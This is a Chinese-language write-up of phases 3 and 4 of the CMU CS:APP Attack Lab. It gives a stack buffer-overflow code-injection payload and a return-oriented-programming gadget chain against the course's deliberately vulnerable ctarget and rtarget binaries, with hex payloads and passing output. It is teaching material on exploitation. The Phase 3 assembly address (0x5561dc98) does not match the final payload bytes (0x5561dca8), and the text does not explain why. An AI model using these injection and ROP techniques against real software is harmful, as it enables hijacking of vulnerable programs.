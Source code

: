 ```yaml
---
title: Lab3 Attack Lab
toc: true
date: 2017-12-30
tags: [CSAPP]
top: 3
---
```


CMU 15-213 Lab3 Attack Lab

* [Lab 下载地址](http://csapp.cs.cmu.edu/3e/labs.html)
* [Recitation讲解](https://scs.hosted.panopto.com/Panopto/Pages/Viewer.aspx?id=60c65748-2026-463f-8c57-134fd6661cdf)

## Phase3

Phase3的任务是调用`touch3`函数，并传入cookie字符串。所涉及的函数的代码是：

```C
int hexmatch(unsigned val, char *sval){
    char cbuf[110];
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval){
    vlevel = 3;
    if (hexmatch(cookie, sval)){
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}

```

`touch3`函数会调用函数`hexmatch`进行，对比传入的`sval`字符串(也就是我们要传入的cookie)是否和程序内部的cookie一致。所以我们应该大致清楚attack的步骤：

* 传入参数`sval`到`touch3`, 由于`sval`是字符串指针，所以我们要在%rdi(Arg1 寄存器)中放入字符串的地址。
* 把字符串放在栈中，但是要防止函数调用时将其覆盖。
* 设置`touch3`函数的地址为返回值地址。

这题稍微有些复杂，我们一步一步来，先把cookie(0x59b997fa) 转换成字符串的表达形式，也就是

```
0x59b997fa-> 35 39 62 39 39 37 66 61 00
```

在Linux下，可用`man ascii`查找字符所对应的ascii码。

然后构造注入代码，`touch3`的地址为0x4018fa, 根据phase2我们已经得到的%rsp地址0x5561dc78，返回地址应为%rsp+0x28, 字符串存放的地址应为%rsp+0x30.

```
#phase3.s
movq $0x5561dc98,%rdi                                                                                                   
pushq $0x004018fa
retq
```

执行命令

```bash
$ gcc -c phase3.s
$ objdump -d phase3.o > phase3.d
```

得到字节码`48 c7 c7 98 dc 61 55 68 fa 18 40 00 c3`:

```
phase3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 98 dc 61 55 	mov    $0x5561dc98,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq
```

生成最终的字节码：

```txt
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

运行结果

```bash
$ cat phase3.txt | ./hex2raw | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61
```


## Phase 4

从Phase4开始，攻击手段变为ROP(Return-Oriented Programming), 并且使用了**栈随机化**和**限制可执行代码区域**。ROP使用现存的代码进行攻击，而不是注入攻击代码。使用ROP的诀窍是找到现存程序中存在ret指令的代码。这些代码一般被叫做gadget.

Phase4的任务与Phase2相同，传递cookie(0x59b997fa)到touch2(0x4017ec), 但是攻击的程序变成rtarget. rtarge内的gadget限定在start_farm和mid_farm之间。

要把cookie作为一个参数，我们只能把cookie写入到(%rsp)，然后弹出。所以首先我们要查找pop指令，pop系列指令如下

![pop](http://or9a8nskt.bkt.clouddn.com/pop.png)

所以我们要查找`5x c3`这样的指令，x可以指代`8,9,a,b,c,d,e,f`。然后再查找mov指令。构成` pop %x; mov %x %rdi; ret`这样的指令，完成cookie传送。其中mov指令如下：

![mov](http://or9a8nskt.bkt.clouddn.com/mov.png)

还有有两个比较重要的指令

* ret: 返回 0xc3
* nop: 什么都不做，只是让程序计数器加一 0x90

由于0x90没有任何意义，所以它可以出现在任何地方。

顺着代码查找，很快就可以找到一个gadget: `58 90 c3 pop %rax; ret;`，地址在0x4019cc.

```
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3  
```

接着查找`mov %rax %rdi`对应的字节码`48 89 c7`。直接搜索`48 89 c7 c3`, 地址在0x4019a2.

```
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   
```

最终形成的字符输入为：

```txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00 # pop %rax; ret
fa 97 b9 59 00 00 00 00 # cookie
a2 19 40 00 00 00 00 00 # mov %rax %rdi; ret;
ec 17 40 00 00 00 00 00 # touch2的返回地址
```

执行结果为

```bash
$ cat phase4.txt| ./hex2raw| ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

